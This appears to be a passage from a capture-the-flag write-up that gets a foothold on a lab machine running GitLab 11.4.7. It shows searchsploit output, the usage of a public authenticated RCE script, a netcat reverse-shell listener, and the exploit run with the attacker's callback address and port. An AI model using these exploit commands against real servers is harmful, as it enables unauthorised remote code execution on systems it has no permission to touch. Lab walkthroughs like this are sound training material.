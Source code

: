 Huh, I guess you have to create a user first.

After creating a user `y00ser:password123`, I login and return to the `/help` page to see a GitLab Community Edition version number `11.4.7`

![](/assets/post1/2020210505000358.png){: .shadow}

---

## **Foothold**

Using searchsploit to see if there are any available exploits for GitLab shows some promise. There appears to be two python scripts that can give us remote code execution (RCE).

```bash
$ searchsploit gitlab
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ----------------------------[snip]---
GitLab 11.4.7 - RCE (Authenticated) (2)             | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticate | ruby/webapps/49257.py
--[snip]---
```

I copy one of the scripts to my current directory with `searchsploit -m ruby/webapps/49334.py`.

I use the scripts `-h` flag to see what arguments are needed:
```bash
$ python3 49334.py -h
usage: 49334.py [-h] -u U -p P -g G -l L -P P

GitLab 11.4.7 RCE

optional arguments:
  -h, --help  show this help message and exit
  -u U        GitLab Username/Email
  -p P        Gitlab Password
  -g G        Gitlab URL (without port)
  -l L        reverse shell ip
  -P P        reverse shell port
```

So I supply the script with the needed arguments, run `nc -lvnp 9001` on another shell tab, and execute the script:
```bash
$ python3 49334.py -u y00ser -p password123 -g http://10.10.10.220 -l 10.10.14.2 -P 9001                                                                                                                                             
[+] authenticity_token: UURyorKkxmg8KQUkog7skIQdeZjNQv4qATa83Enyb7VaC+97Op4Bcz4zX/+NLei82VB96whWqpaXApdGIMlQGw==
[+] Creating project with random name: project4017
[+] Running Exploit
[+] Exploit completed successfully!
```
